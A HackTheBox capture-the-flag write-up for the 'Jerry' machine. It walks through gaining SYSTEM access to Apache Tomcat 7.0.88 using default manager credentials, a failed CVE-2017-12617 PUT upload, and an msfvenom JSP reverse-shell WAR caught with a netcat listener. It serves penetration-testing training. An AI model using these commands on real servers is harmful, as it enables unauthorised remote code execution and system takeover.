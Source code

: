 ```yaml
---
title: HTB | Jerry
author: Zeropio
date: 2022-12-23
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy, machines]
permalink: /pentesting/htb/machines/jerry
image:
  path: /assets/img/hackthebox/card/Jerry.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan
The scan only show us:
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
```


## Enumeration
The default page can be seen in the port 8080:

![][/assets/img/hackthebox/labs/jerry/Pasted image 20221223203436.png]

Every administrator page ask for credentials. Finally, the credentails `admin:admin` will work, but this will not grant access to the **Host Manager** panel. But we can see there a reference to some possible credentials:

```xml
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

With these credentials we can now enter in the **Manager App**.

---

# Footprint
## Initial Access
For this version we can search for the CVE-2017-12617, without success manually...:

```jsp
<% out.write("<html><body><h3>[+] JSP file successfully uploaded via curl and JSP out.write  executed.</h3></body></html>"); %>
```

```console
$ curl -X PUT http://10.10.10.95:8080/test.jsp/ -d @- < test.jsp
$ curl http://10.10.10.95:8080/test.jsp                     
<html><head><title>Apache Tomcat/7.0.88 - Error report</title>
```

...or automatized:
```console
$ python3 42966.py -u http://10.10.10.95:8080/

Poc Filename  Poc.jsp
Not Vulnerable to CVE-2017-12617 
```

But we can try an upload attack of a WAR file. This is a basic Tomcat attack. First we create the shell:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=80 -f war > shell.war
```
Start a netcat and upload the file. Now we have a new entry:

![][/assets/img/hackthebox/labs/jerry/Pasted image 20221223234606.png]

Loading the web in the `/shell`{: .filepath} path will start the reverse shell.
```console
$ nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

We are currently Administrator, so there aren't privilege escalation.
